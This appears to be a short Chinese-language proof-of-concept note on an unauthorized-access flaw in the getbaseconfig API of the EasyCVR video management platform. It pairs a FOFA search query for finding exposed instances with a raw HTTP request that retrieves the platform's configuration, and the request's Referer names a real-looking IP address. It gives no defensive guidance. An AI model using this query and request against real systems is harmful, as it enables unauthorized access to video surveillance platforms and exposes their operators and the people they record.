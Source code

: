 # EasyCVR-视频管理平台getbaseconfig接口未授权访问

EasyCVR视频管理平台，作为TSINGSEE青犀视频旗下的一款重要产品，是一款功能强大的视频融合+AI智能分析网关平台。平台基于分布式、负载均衡等流媒体技术，提供广泛兼容、安全可靠、开放共享的视频综合服务。它支持多协议的设备视频接入、采集、AI智能检测、处理、分发、管理等服务，并具备轻量化接入、传输、处理与分发能力，可实现一站式视频融合共享管理。支持RTSP、RTMP、GB28181、GB35114、海康Ehome、大华SDK、海康SDK等多种协议的视频设备接入，兼容市面上几乎所有视频终端。

FOFA: 

```plain
title="EasyCVR"
```

```
GET /api/v1/getbaseconfig HTTP/2
Host: 
Cookie: token=-RDgCfFNR
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: https://122.225.84.166:4443/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
```

![image-20250210111616195](images/image-20250210111616195.png)



